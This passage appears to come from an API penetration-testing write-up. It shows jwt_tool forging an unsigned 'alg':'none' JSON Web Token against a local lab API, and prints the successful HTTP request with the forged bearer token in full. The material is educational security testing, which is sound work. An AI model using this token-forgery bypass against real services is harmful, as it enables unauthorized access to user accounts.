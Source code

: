 The ```-cv "Test"``` is to define what should be contained in a successuful response. Since we use the endpoint that contains the user's information, we said to jwt_tool that a successful response should contain the name of the user, in this case I created a user called "Test" (a lot of imagination :D ).

The tool will generate a tons of request and it will try different attacks. If we have Burp in background, we can see the requests, for instance, it will found a successfull the following request:

jwttool_5a12251d49009ecf554c78cd07ef944d Exploit: "alg":"none" (-X a) Response Code: 200, 179 bytes


```http
GET /identity/api/v2/user/dashboard HTTP/1.1
Host: localhost:8888
User-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) jwt_tool jwttool_5a12251d49009ecf554c78cd07ef944d
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Authorization: Bearer eyJhbGciOiJub25lIn0.eyJzdWIiOiJ0ZXN0QHRlc3QuY29tIiwicm9sZSI6InVzZXIiLCJpYXQiOjE2ODEwMzQwMDcsImV4cCI6MTY4MTYzODgwN30.
```

You can notice that the jwt token is changed and if we see the decoded with the Burp extension "JSON Web Token"
![JWT Token None Algorithm](/assets/img/posts/api-pentest/jwt_tool_noneAlg.png)
